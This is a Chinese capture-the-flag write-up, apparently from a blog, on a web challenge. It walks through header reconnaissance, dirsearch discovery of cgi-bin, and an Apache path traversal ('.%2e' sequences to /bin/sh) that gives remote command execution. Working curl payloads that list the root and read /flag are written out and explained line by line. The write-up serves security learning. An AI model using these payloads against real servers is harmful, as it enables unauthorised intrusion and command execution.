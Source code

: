 robots.txt复习点（青少）

![image-20230527142532838](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230527142532838.png)

![image-20230527142648611](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230527142648611.png)

<img src="https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230527142748404.png" alt="image-20230527142748404" style="zoom:50%;" />

网络--响应标头

<img src="https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230527143021573.png" alt="image-20230527143021573" style="zoom: 50%;" />

## 登录后台（青少）

这题非常有趣。

<img src="https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230527153234508.png" alt="image-20230527153234508" style="zoom:67%;" />

这里有一个细节，待会儿会谈到。看响应头，确定了是**apache服务器以及Unix系统**

![image-20230527155406235](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230527155406235.png)

登录后仅有一个界面，于是我又开始dirsearch，发现了一个cgi-bin。**所以这里有一个自己的小经验，一旦没有什么头绪的时候，遇事不决dirsearch**

<img src="https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230527153337146.png" alt="image-20230527153337146" style="zoom: 33%;" />

<img src="https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230527154027284.png" alt="image-20230527154027284" style="zoom:50%;" />

<img src="https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230527153612270.png" alt="image-20230527153612270" style="zoom:50%;" />

我们需要绕过权限，去找bin/sh目录。

![image-20230527154431808](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230527154431808.png)

还有这里有一个需要注意的细节吧，我们看到这个url是不是以 **/** 为结尾的？下面我指出一个需要注意的地方。

```
在Web应用程序中，这个斜杠字符 "/" 通常被用作目录的分隔符。如果一个URL以斜杠字符 "/" 结尾，表示它是一个目录的URL，而如果没有以斜杠字符 "/" 结尾，表示它是一个文件的URL。

http://9accab72-e30d-4c49-be45-2ae16f6c6550.challenge.qsnctf.com:8081/cgi-bin/
*表示为cgi-bin目录*

http://9accab72-e30d-4c49-be45-2ae16f6c6550.challenge.qsnctf.com:8081/cgi-bin
*表示为cgi-bin文件*
```

![image-20230527154942393](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230527154942393.png)

看看是不是不一样？这里是一个小细节吧。我们接下来需要绕过它，用到curl指令。

还记得我们一开始看到的响应头吗？在Unix系统上，文件系统通常是基于树形结构的，以根目录“/”为起点，通过目录层次的嵌套来组织文件和目录。**如果Web应用程序在Unix系统上运行，那么它的文件通常也会存储在Unix系统的文件系统中。**我们要用curl来回到unix的根目录，这样就能绕过审查机制。这里使用到kali。

```
curl 'http://destination/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'A=|echo;ls /'
curl 'http://destination/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'echo;ls /'
（ps：没有A=|也行，但是一定要有echo，它的作用是在服务器上执行一个空命令，以确保在执行"ls /"命令之前，命令行处于一个干净的状态。）
	这里使用了路径遍历漏洞，通过在URL中多次使用"/"和".%2e"，来访问文件系统中的上级目录，最终访问到了"/bin/sh"这个文件，它是一个Linux系统中的shell程序。
	熟悉cd指令的朋友们应该知道'cd ..'是返回上级目录，这里的'%2e'就是代表着一个点的意思，那么在配合前面一个点就是两个点，返回上一级，这里反复用很多次就是为了回到根目录。为什么不用两个点，反而还要再用一个%2e呢？因为在url中, . 和 .. 都有特殊含义，这里是为了避免歧义，所以把 .. 拆成一个点带一个编码的点的形式来执行。
	这里使用了"-d"参数，指定了一个POST请求的数据体，其中"A=|echo;ls /"是一个bash命令，用于执行两个子命令，以列出根目录"/"下的文件列表。具体来说，"A=|echo"是一个无意义的赋值操作，它将变量"A"赋值为一个竖杠字符"|"，然后使用echo命令将这个值输出到控制台。接着，";"是一个命令分隔符，用于分隔两个命令。最后的"ls /"是一个列出根目录"/"下文件列表的命令，它将根目录下的所有文件和目录列出来，并将结果返回给命令行输出。这里可以使用ls，但是不适合访问特定目录的详细信息，像这里的话使用了ls之后我就没看见flag（不是没有）。
	curl 'http://destination/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'echo;cat /flag'
	执行"cat /flag"这个命令来输出"/flag"文件的内容，那么"/flag"应该是一个绝对路径，表示根目录下的"flag"文件。而执行"cat flag"命令会将"flag"解释为相对于当前工作目录的路径，而不是根目录下的路径。
```